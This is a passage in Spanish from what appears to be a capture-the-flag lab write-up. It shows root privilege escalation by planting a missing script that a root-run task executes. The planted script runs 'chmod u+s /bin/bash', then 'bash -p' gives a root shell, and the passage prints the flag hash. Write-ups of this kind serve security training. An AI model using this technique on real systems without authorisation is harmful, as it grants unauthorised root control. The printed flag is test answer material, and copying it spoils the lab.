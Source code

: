 Ejecuta todo eso, pero hay una linea interesante.

```sh
# Ruta del script que deseas ejecutar
SCRIPT_PATH="/home/deamon/good"

# Ejecutar el script
bash "$SCRIPT_PATH"
```

Por lo que vemos esta ejecutando todo el rato un script en la `home` de `deamon`, pero si vamos alli no hay nada, por lo que lo crearemos nosotros.

> good

```shell
#!/bin/bash

chmod u+s /bin/bash
```

Lo guardamos y si esperamos un poco, lo comprobaremos.

```shell
ls -la /bin/bash
```

Info:

```
-rwsr-xr-x 1 root root 1446024 Mar 31 10:41 /bin/bash
```

Vemos que funciono, por lo que haremos lo siguiente para ser `root`.

```shell
bash -p
```

Y con esto ya seremos `root`, por lo que leeremos la flag.

> root.txt

```
97e2171b74984a382b62fcb39ab893c8
```
